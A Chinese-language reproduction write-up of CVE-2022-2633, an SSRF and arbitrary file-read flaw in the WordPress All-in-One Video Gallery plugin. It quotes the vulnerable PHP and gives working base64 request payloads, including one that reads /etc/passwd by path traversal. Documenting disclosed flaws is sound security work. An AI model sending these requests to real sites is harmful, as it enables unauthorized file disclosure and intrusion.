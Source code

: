 # WordPress All-in-One Video Gallery video.php 任意文件读取漏洞 CVE-2022-2633

## 漏洞描述

WordPress All-in-One Video 插件 Gallery video.php文件中存在SSRF以及任意文件读取漏洞，攻击者通过发送特定的请求包读取任意文件

## 漏洞影响

```
WordPress All-in-One Video Gallery <= 2.6.0
```

## 插件名称

```
All-in-One Video Gallery
```

https://downloads.wordpress.org/plugin/all-in-one-video-gallery.2.6.0.zip

## 漏洞复现

对比漏洞修复的文件找到出现漏洞的文件 wp-content/plugins/all-in-one-video-gallery/public/video.php

![image-20221017170543356](images/202210171705476.png)

这里接收 dl 参数，dl 参数不为 数字类型时，参数将 base64 解码传入

```
		if ( is_numeric( $_GET['dl'] ) ) {
			$file = get_post_meta( (int) $_GET['dl'], 'mp4', true );
		} else {
			$file = base64_decode( $_GET['dl'] );
		}

		if ( empty( $file ) ) {
			die( esc_html__( 'Download file URL is empty.', 'all-in-one-video-gallery' ) );
           	exit;
        }
```

![image-20221017170604454](images/202210171706536.png)

当传入的参数中不存在 http:// 或 https:// 时，参数 $formatted_path 的值改变

![image-20221017170622056](images/202210171706133.png)

当 $formatted_path 为 url 时存在 SSRF漏洞，传入 base64编码 的目标URL就可以得到回显

```
/index.php/video/?dl=aHR0cHM6Ly93d3cuYmFpZHUuY29t
```

![image-20221017170640788](images/202210171706868.png)

看向代码最后的片段，则存在任意文件读取漏洞

![image-20221017170655893](images/202210171706975.png)

```
/index.php/video/?dl=Li4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```

![image-20221017170708523](images/202210171707604.png)